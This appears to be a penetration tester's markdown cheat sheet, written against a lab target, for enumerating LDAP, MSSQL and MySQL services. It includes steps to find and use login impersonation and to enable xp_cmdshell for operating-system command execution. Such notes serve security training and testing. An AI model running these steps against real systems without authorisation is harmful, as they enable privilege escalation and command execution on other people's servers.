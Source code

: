Windapsearch
- `python3 windapsearch.py --dc-ip $dcIP -u $user@domain.com -p $pass --da`
	- where `--da` means to enumerate domain admins
	- or `-PU` enumerates privileged users


First: `ldapsearch -H ldap://monitored.htb -x -s base namingcontexts`
Then: `ldapsearch -H ldap://monitored.htb -x -b "dc=monitored,dc=htb"`

## 1433 mssql

### Commands
- enum_db
- 
- `SELECT @@version;`
- `SELECT name FROM sys.databases;` (to list all available db's)
	- master, tempdb, model, and msdb are default
- `SELECT * FROM $non-default-db.information_schema.tables;`
	- `select * from $non-default-db.dbo.$table;`

See if we can impersonate a user:
- `SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'`
If we can impersonate `$user-reader`:
- `EXECUTE AS LOGIN = '$user-reader'`
- `use $user`

### xp_cmdshell
1. `EXECUTE sp_configure 'show advanced options', 1;`
2. `RECONFIGURE;`
3. `EXECUTE sp_configure 'xp_cmdshell', 1;`
4. `RECONFIGURE;`
5. `EXECUTE xp_cmdshell 'whoami';`

### xp_dirtree
- `xp_dirtree C:\inetpub\wwwroot` for example 

### Brute forcing with ffuf
https://medium.com/@opabravo/manually-exploit-blind-sql-injection-with-ffuf-92881a199345

### Tools
- [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

## 3306 mysql
- From kali: `mysql --host $IP -u root -p$password`
	- note that there is no space between -p flag and $password
	- If you get "TLS/SSL error: SSL is required", you can append `--skip-ssl`
- Or from target: `mysql -u $user -p $database` (p flag is db password, have to enter that after)

### Commands
- `select system_user();`
- `select version();`
- `show databases;`
-` SELECT * FROM $tableName WHERE $column='$field;'`
